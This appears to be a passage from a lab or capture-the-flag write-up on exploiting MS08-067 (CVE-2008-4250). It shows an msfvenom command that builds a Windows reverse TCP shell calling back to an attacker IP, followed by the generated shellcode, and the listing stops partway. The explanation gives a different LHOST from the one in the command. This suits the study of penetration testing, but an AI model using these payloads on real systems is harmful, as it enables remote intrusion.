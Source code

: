 Both vulnerabilities are well-documented and can lead to SYSTEM-level access, making them ideal candidates for exploitation.


# MS08-067 | CVE-2008-4250

I'm going to use this script to exploit this vulnerability : https://github.com/n3rdh4x0r/MS08-067 This script is a modified version of the original exploit, designed to work with custom shellcode and Impacket. Below is a detailed walkthrough of the process.

Reference: [https://learn.microsoft.com/en-us/security-updates/SecurityBulletins/2008/ms08-067?redirectedfrom=MSDN](https://learn.microsoft.com/en-us/security-updates/SecurityBulletins/2008/ms08-067?redirectedfrom=MSDN)

#### Generating Custom Shellcode

The script requires custom shellcode to be inserted. I used **`msfvenom`** to generate a reverse TCP shell payload tailored for the target environment. The command used was:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.8 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
```

**Parameters Explained**:

- **-p windows/shell_reverse_tcp**: Generates a reverse TCP shell payload.
- **LHOST=10.10.14.14**: Specifies the attacker's IP for the callback.
- **LPORT=443**: Specifies the listening port.
- **EXITFUNC=thread**: Ensures clean exit behavior.
- **-b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40"**: Excludes bad characters that could break the payload.
- **-f py**: Outputs the shellcode in Python format.
- **-a x86 --platform windows**: Targets a 32-bit Windows environment.

The generated shellcode was then pasted into the exploit script, replacing the default payload. I also added a comment with the `msfvenom` command for future reference.

```
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.8 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of py file: 1953 bytes
shellcode =  b""
shellcode += b"\x2b\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0"
shellcode += b"\x5e\x81\x76\x0e\x4d\xb3\x8e\xc2\x83\xee\xfc"
shellcode += b"\xe2\xf4\xb1\x5b\x0c\xc2\x4d\xb3\xee\x4b\xa8"
shellcode += b"\x82\x4e\xa6\xc6\xe3\xbe\x49\x1f\xbf\x05\x90"
shellcode += b"\x59\x38\xfc\xea\x42\x04\xc4\xe4\x7c\x4c\x22"
shellcode += b"\xfe\x2c\xcf\x8c\xee\x6d\x72\x41\xcf\x4c\x74"
shellcode += b"\x6c\x30\x1f\xe4\x05\x90\x5d\x38\xc4\xfe\xc6"
shellcode += b"\xff\x9f\xba\xae\xfb\x8f\x13\x1c\x38\xd7\xe2"
shellcode += b"\x4c\x60\x05\x8b\x55\x50\xb4\x8b\xc6\x87\x05"
shellcode += b"\xc3\x9b\x82\x71\x6e\x8c\x7c\x83\xc3\x8a\x8b"
shellcode += b"\x6e\xb7\xbb\xb0\xf3\x3a\x76\xce\xaa\xb7\xa9"
shellcode += b"\xeb\x05\x9a\x69\xb2\x5d\xa4\xc6\xbf\xc5\x49"
shellcode += b"\x15\xaf\x8f\x11\xc6\xb7\x05\xc3\x9d\x3a\xca"
shellcode += b"\xe6\x69\xe8\xd5\xa3\x14\xe9\xdf\x3d\xad\xec"
shellcode += b"\xd1\x98\xc6\xa1\x65\x4f\x10\xdb\xbd\xf0\x4d"
shellcode += b"\xb3\xe6\xb5\x3e\x81\xd1\x96\x25\xff\xf9\xe4"
shellcode += b"\x4a\x4c\x5b\x7a\xdd\xb2\x8e\xc2\x64\x77\xda"
shellcode += b"\x92\x25\x9a\x0e\xa9\x4d\x4c\x5b\x92\x1d\xe3"
```
